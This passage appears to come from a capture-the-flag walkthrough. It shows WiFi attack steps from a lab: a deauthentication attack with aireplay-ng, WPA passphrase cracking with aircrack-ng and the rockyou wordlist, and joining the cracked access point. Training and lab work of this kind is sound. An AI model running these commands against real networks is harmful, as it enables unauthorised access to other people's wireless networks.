 **What is the BSSID of the wireless interface that is already connected to the access point?**

From the output of the previous command we see a STATION connected with BSSID `02:00:00:00:01:00`

Launch the deauthentication attack **in a second terminal**:
```shell
sudo aireplay-ng -0 1 -a 02:00:00:00:00:00 -c 02:00:00:00:01:00 wlan2

17:35:32  Waiting for beacon frame (BSSID: 02:00:00:00:00:00) on channel 6
17:35:32  Sending 64 directed DeAuth (code 7). STMAC: [02:00:00:00:01:00] [ 0| 0 ACKs]
```

**What is the PSK after performing the WPA cracking attack?**

Attempt to crack the WPA/WP2 passphrase:
```shell
sudo aircrack-ng -a 2 -b 02:00:00:00:00:00 -w /home/glitch/rockyou.txt output*cap

KEY FOUND! [ the-cracked-psk ]
```

Exit process in first terminal (`sudo airodump-ng ...`) and join the MalwareM_AP access point:
```shell
wpa_passphrase MalwareM_AP 'the-cracked-psk' > config
sudo wpa_supplicant -B -c config -i wlan2
```

Wait a few seconds until we have joined the MalwareM_AP SSID
```shell
iw dev wlan2 info

Interface wlan2
	ifindex 5
	wdev 0x200000001
	addr 02:00:00:00:02:00
	ssid MalwareM_AP
	type managed
	wiphy 2
	channel 6 (2437 MHz), width: 20 MHz (no HT), center1: 2437 MHz
	txpower 20.00 dBm
```

**What is the SSID and BSSID of the access point? Format: SSID, BSSID**

```shell
SSID=$(sudo iw dev wlan2 link | grep SSID | awk '{print $2}')
BSSID=$(sudo iw dev wlan2 link | grep "Connected to" | awk '{print $3}')
echo $SSID, $BSSID
```

## Day 12: Web timing attacks - If I can’t steal their money, I’ll steal their joy!

**What is the flag value after transferring over $2000 from Glitch's account?**

Just follow the instructions!
